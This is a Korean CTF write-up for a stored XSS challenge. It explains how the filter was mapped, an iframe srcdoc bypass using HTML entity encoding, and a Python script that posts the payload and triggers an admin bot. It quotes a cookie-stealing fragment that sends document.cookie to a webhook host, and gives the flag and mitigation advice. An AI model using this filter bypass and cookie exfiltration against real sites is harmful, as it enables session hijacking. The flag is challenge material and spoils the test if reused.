

# 05. XSS #2

## 문제 설명
게시판(글쓰기·목록·신고)이 있는 애플리케이션. 신고(`/report`)에 URL을 제출하면
admin 봇이 로그인된 상태로 방문한다. 본문에 스크립트를 저장해 봇의 쿠키(flag)를
탈취하는 Stored XSS 문제이며, 기본 페이로드는 필터로 차단된다.

## 필터 규칙 파악
여러 문자열을 본문에 넣어 저장을 시도하며 어떤 입력이 차단(blocked)되는지 확인했다.
그 결과 다음 문자열이 포함되면 차단됨을 알아냈다.

- `on` (모든 이벤트 핸들러 → `onerror`, `onload` 등 전부)
- `script`, `javascript`
- `(`, `)` (괄호)
- `'` (홑따옴표)
- 공백/탭/개행 등 제어문자
- 대소문자를 섞어도 차단 (소문자 기준 검사)

반대로 다음은 통과했다: `<`, `>`, `=`, `"`(쌍따옴표), `` ` ``(백틱), `&#` (HTML 엔티티),
일반 태그(``, `<iframe>`, `<svg>` 등).

## 우회 아이디어
통과되는 재료(`<iframe>`, `&#` 엔티티, 백틱)를 조합한다. 핵심은 `<iframe srcdoc>`
안에 페이로드를 HTML 엔티티로 인코딩해서 넣는 것이다.

- `srcdoc` 속성값을 엔티티(`&#60;` 등)로 인코딩하면, 원문 문자열에는 `script`·`on`·
  `(`·`)`·`'` 가 전혀 나타나지 않아 필터를 통과한다.
- 브라우저는 `srcdoc` 값을 렌더링할 때 엔티티를 디코딩하므로, iframe 내부에서는
  원래의 `` 가 복원되어 실행된다. (iframe 내부는 필터를 거치지 않음)

## 익스플로잇

### iframe 내부에서 실행될 실제 페이로드
```html
/?c='+encodeURIComponent(document.cookie)">
```

### 최종 페이로드
위 내용을 모든 문자 `&#NNN;` 엔티티로 인코딩하여 `srcdoc` 에 넣는다.
```html
<iframe srcdoc="&#60;&#105;&#109;&#103;&#32;...(엔티티 인코딩된 페이로드)...&#62;"></iframe>
```

### (Python)
웹 입력 폼은 값을 인코딩 변형시켜 페이로드가 깨지므로, 필터를 우회해 서버에 직접 POST 한다.
```python
import requests, re

BASE = "http://edu.arang.kr:9102"
WEBHOOK = "https://webhook.site/<ID>"
USER, PW = "USER", "PW"

def enc(s):
    return "".join(f"&#{ord(ch)};" for ch in s)

s = requests.Session()
s.post(f"{BASE}/register", data={"userid": USER, "userpw": PW})
s.post(f"{BASE}/login", data={"userid": USER, "userpw": PW})

inner = ("")
payload = '<iframe srcdoc="' + enc(inner) + '"></iframe>'

s.post(f"{BASE}/write", data={"subject": "x", "content": payload})

board = s.get(f"{BASE}/board").text
post_id = max(re.findall(r"/board/(\d+)", board), key=int)
s.post(f"{BASE}/report", data={"url": f"http://xss-1:9102/board/{post_id}"})
```

## 풀이 과정
1. 필터 규칙을 페이로드 실험으로 역추적 (`on`/`script`/괄호/홑따옴표/제어문자 차단 확인).
2. `<iframe srcdoc>` + HTML 엔티티 인코딩으로 필터를 우회하는 페이로드 작성.
3. 서버에 직접 POST 하여 저장 후, 신고로 admin 봇을 방문시킴.
4. 봇 방문 시 iframe 내부 스크립트가 실행되어 `document.cookie` 가 webhook 으로 전송됨.



## 플래그
```
flag{eb4d89f583b5d6e5943c}
```

## 대응 방안
블랙리스트 문자열 필터는 인코딩·중첩·대체 벡터로 우회되므로 신뢰할 수 없다.
출력 시 컨텍스트에 맞는 이스케이프(HTML 엔티티 인코딩)를 적용하고, CSP 로 인라인
스크립트 실행을 차단하며, 세션 쿠키에 `HttpOnly` 속성을 부여한다.
